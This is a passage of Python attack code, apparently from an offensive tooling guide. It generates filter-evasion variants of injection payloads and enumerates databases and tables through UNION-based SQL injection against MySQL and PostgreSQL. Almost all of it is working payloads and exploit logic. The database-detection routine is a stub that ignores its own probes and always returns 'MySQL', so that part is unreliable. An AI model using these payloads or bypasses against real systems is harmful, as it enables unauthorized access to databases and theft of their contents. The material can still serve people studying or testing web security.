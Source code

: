 ```python
    def _null_byte_bypass(self, payload):
        """Null byte injection"""
        return [
            payload + '%00',
            '%00' + payload,
            payload.replace(' ', '%00')
        ]

    def _unicode_bypass(self, payload):
        """Unicode normalization bypass"""
        # Example: ＵＮ\uFF29ＯＮ (fullwidth)
        fullwidth_map = str.maketrans(
            'ABCDEFGHIJKLMNOPQRSTUVWXYZ',
            'ＡＢＣＤＥＦＧＨＩＪＫＬＭＮＯＰＱＲＳＴＵＶＷＸＹＺ'
        )
        return [payload.translate(fullwidth_map)]

    def generate_bypasses(self, payload):
        """Generate all bypass variants"""
        all_bypasses = []
        for technique_name, technique_func in self.techniques.items():
            bypasses = technique_func(payload)
            all_bypasses.extend(bypasses)
        return all_bypasses
```

#### C. Database Enumeration

```python
class DatabaseEnumerator:
    """Enumerate database structure"""

    def __init__(self, sqli_point):
        self.sqli_point = sqli_point
        self.db_type = self._detect_database()

    def _detect_database(self):
        """Detect database type"""
        tests = {
            'MySQL': "' AND 1=1-- ",
            'PostgreSQL': "' AND 1=1--",
            'MSSQL': "' AND 1=1--",
            'Oracle': "' AND 1=1--"
        }
        # Test and detect...
        return 'MySQL'  # Default

    def enumerate_databases(self):
        """List all databases"""
        if self.db_type == 'MySQL':
            payload = "' UNION SELECT schema_name,NULL FROM information_schema.schemata-- "
        elif self.db_type == 'PostgreSQL':
            payload = "' UNION SELECT datname,NULL FROM pg_database-- "
        # ... more DB types

        results = self._execute_payload(payload)
        return self._parse_results(results)

    def enumerate_tables(self, database):
        """List tables in database"""
        if self.db_type == 'MySQL':
            payload = f"' UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema='{database}'-- "

```